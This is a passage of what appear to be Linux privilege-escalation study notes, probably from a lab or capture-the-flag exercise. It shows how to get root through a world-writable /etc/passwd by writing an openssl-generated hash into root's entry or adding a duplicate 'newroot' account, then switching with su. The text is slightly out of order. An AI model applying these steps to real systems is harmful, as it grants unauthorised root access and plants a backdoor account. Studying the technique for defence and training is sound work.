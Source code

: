 ```bash
ls -l /etc/passwd
```

##### Step 2: Generate a New Password Hash

Generate a new password hash with a password of your choice using the `openssl` command:

```bash
openssl passwd newpasswordhere
```

##### Step 3: Edit the `/etc/passwd` File

Edit the `/etc/passwd` file and place the generated password hash between the first and second colon (`:`) of the root user's row, replacing the `"x"`.

Alternatively, you can copy the root user's row and append it to the bottom of the file, changing the first instance of the word `root` to `newroot` and placing the generated password hash between the first and second colon (`:`), replacing the `"x"`.

##### Step 4: Switch to the Root User

Switch to the root user using the new password:

```bash
su root
```

If you created the `newroot` user, switch to it using the new password:

```bash
su newroot
```

## Weak File Permissions - Writable /etc/passwd

- The /etc/passwd file is world-writable:

`ls -l /etc/passwd`

![alt text](linuxPrivEsc1.png)
